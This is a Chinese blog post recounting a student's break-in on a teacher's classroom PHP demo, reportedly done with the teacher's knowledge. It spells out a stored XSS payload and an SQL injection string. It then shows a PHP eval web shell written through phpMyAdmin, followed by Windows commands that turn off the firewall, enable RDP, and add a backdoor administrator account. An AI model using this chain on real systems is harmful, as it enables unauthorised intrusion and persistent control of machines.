水文章，不过是真实事件

<!-- more -->

**注意：**本文所完成操作均已在教师知晓的情况下进行，未对正常教学产生影响，请勿模仿。

## 前言

某节动态WEB课，老师展示了一个Demo，内容是一个注册系统，注册完后展示有数据库全部已注册的信息（select *），既然是系统那肯定会有不安全的地方存在，老师也说开发过程中要注意种种云云，遂测试发现确实有漏洞，进而写了shell，然后拿到windows教师机权限。全部过程教师已知，以下信息已经过修改，并非真实信息，本文目的旨在技术交流，教师机每天都会进行重置还原，本文操作没有对电脑造成任何破坏，请不要对任何操作系统进行破坏或攻击。

## 流程

### 漏洞发现

毕竟是教学Demo，盲猜一手没有任何过滤，果真如此。

注册需要如下信息：姓名，密码，性别，爱好，年龄

注册是`index.htm`，提交信息到`doInsert.php`，然后直接跳转到`doSelect.php`。名称很明显，`doSelect.php`进行了一个

```mysql
select * from table;
```

提交到信息明显是进行了一次插入，猜测后端语句如下。

```mysql
insert into table(Username,Passwd,Gender,Hobby,Age) values('$Username','$Passwd','$Gender','$Hobbys','$Age');
```

抓了包看提交到数据，发现都是明文提交，没有任何加密。

### xss

提交表单跳转后会直接显示在`doSelect.php`，先打一下xss。

提交POST包

```http
Username=<scRipt>alert(1)</scrIpT>&Passwd=1&Gender=男&Hobbys=蹦极&Age=20
```

提交后发现页面没有反应，查看源码，发现username有长度限制



尝试后发现Hobbys处的多选项没有限制固定内容，于是尝试在Hobbys处打xss

```http
Username=zhangsan&Passwd=helloworld&Gender=男&Hobbys=<scRipt>alert(1)</scrIpT>&Age=24
```

测试成功，成功弹窗了（虽然表格格式乱了）



### SQL注入

尝试一下注入，猜测multi没开，所以没法堆叠注入，先闭合。

```http
Username=lisi&Passwd=helloworld&Gender=男\&Hobbys=,version(),'24');--#&Age=24
```

这样insert的语句就变成了

```sql
insert into table(Username,Passwd,Gender,Hobby,Age) values('lisi','helloworld','$Gender\',',version(),'24');--#','24');
```

很完美，提交



再看一下用户



很好，明显就是phpstudy直接起的服务。

尝试了一下`load_file`，`into outfile`发现8太行，在insert语句里似乎没有执行，尝试hex出来也不行

### 峰回路转

既然是phpstudy启动的服务，而且作为教学使用，查看一下会不会有其他有用的东西，果然发现了`phpinfo.php`，获取了其web路径为`D:/phpStudy/WWW`，看了下信息，似乎还有phpMyAdmin，访问一下`/phpMyAdmin`，果然存在。



直接猜解一下，登录成功。既然是root就不客气了，直接执行SQL语句在web目录写个码

```sql
select "<?php @eval($_POST['admin']);?>" into outfile 'D:/phpStudy/WWW/phpinfo2.php';
```

蚁剑直接连接



H盘是老师的U盘，为了信息安全我没有访问，当前目录打开命令行



很好，直接就是admin。

### 尝试远程桌面登录

#### 关闭防火墙

```cmd
NetSh Advfirewall set allprofiles state off 
```

#### 看看防火墙是否关闭

```cmd
Netsh Advfirewall show allprofiles
```

#### 设置远程桌面端口

尝试设置3389不成功，遂转换为3390

```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3390 /f
```

#### 开启远程桌面

```cmd
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

#### 检查一下端口是否开放

```cmd
netstat -an|find "3390"
```



#### 添加用户

```cmd
net user admin1 adminadmin /add
```



#### 授权用户组

```cmd
net localgroup Administrators admin1 /add
```



#### 远程登录

此处无图，直接在学生机登录的，在同一网段下

#### 修改多用户同时登录

登录后按照网上教程走，运行打开`gprdit.msc`

然后进行如下设置



结束

## 总结

渗透路上的小小一步，没什么技术含量，毕竟是和机房有关，比较有趣。也只是一个引子，打开了这个大门，以后还会继续往下学习。